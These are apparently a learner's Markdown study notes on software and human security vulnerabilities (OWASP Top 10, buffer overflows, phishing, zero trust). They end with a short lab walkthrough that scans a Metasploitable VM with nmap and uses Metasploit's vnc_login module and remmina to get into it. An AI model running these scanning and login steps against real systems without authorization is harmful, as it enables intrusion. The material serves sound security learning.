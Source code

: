 Problem occurs if the code of a software is not well written, if it has some bugs

<span style="color:#c6554f">Exploitable vulnerability</span> <span style="color: #3588E9">--></span> when the hacker use a bug to make software act in a way that it is not intended to.

People are always the weakest spot!!

<span style="color:#c6554f">Buffer overflow vulnerability</span> <span style="color: #3588E9">--></span> anomaly where, while writing data to the buffer, it overruns the buffer size and overwrites the memory addresses.
###### <strong style="color: #689d6a">Common vulnerabilities</strong>

- <strong style="color: #d79921">Software Vulnerabilities</strong>
	- <span style="color:#c6554f">Zero Day Vulnerabilities</span> <span style="color: #3588E9">--></span> It's the most dangerous, it is a vulnerability that has not been discovered yet and not patched.
	- <span style="color:#c6554f">Owasp Top 10</span> <span style="color: #3588E9">--></span> Should be apply for any web application security, it includes SQL injection, command injection, cross-site scripting attacks where JavaScript is injected into unscientized user input, broken access control access. These vulnerabilities usually occur when user input is not well filtered or misconfiguration in the application.
	- <span style="color:#c6554f">Misconfigurations</span> <span style="color: #3588E9">--></span> Something that is not configured right or implemented right They're also common in access control types of configurations and cant occur anywhere.
	- <span style="color:#c6554f">Outdated Software</span> <span style="color: #3588E9">--></span> It's important to patch every code and library when a bud is found
	- <span style="color:#c6554f">MiiM & DDoS</span> <span style="color: #3588E9">--></span> The man-in-the-middle attack allows the attacker to do is sniff other's traffic on the network.
	- <span style="color: #3588E9">--></span> <strong style="color: #d79921">Always check the code where user input can be provided</strong> 
---
- <strong style="color: #d79921">Human vulnerabitlites</strong>
	- <span style="color:#c6554f">Social Engineering Attacks</span>
	- <span style="color:#c6554f">Phishing Attacks</span>
	- <span style="color:#c6554f">Downloading Unwanted Software</span>
	- <span style="color:#c6554f">Opening Unverified Emails</span> <span style="color: #3588E9">--></span> it means opening email that appear to be coming from the trusted source but it reality they are not to be trusted at all.
	- <span style="color:#c6554f">Clicking on Random Links</span>
	- <span style="color: #3588E9">--></span> <strong style="color: #d79921">All of these can result into not only the employee of the company being compromised but the entire company as well</strong>
	- <span style="color: #3588E9">--></span> <span style="color: #98971a">Zero Trust Model --></span> <strong>None</strong> is to be trusted and we can expect a threat to come from anywhere 
###### <strong style="color: #689d6a">Unpatched Machine Exploitation</strong>

Exploit target system that has an unpatched vulnerability <span style="color: #3588E9">--></span> use the <span style="color: #98971a">Metasploitable</span>

```bash
# Map the machine IP address - simple scan
nmap -sV -F 192.168.0.38

# use msfconsole to launch the exploit
msfconsole

# use the vnc module to log in
msf6 > use auxiliary/scanner/vnc/vnc_login
> show options
> set RHOSTS 192.168.0.38
> run 
> remmina # use the remmina app to access the target system

# another example - choose a different service: samba
# search for the version on the web
Samba smbd 3.x - 4.x
```
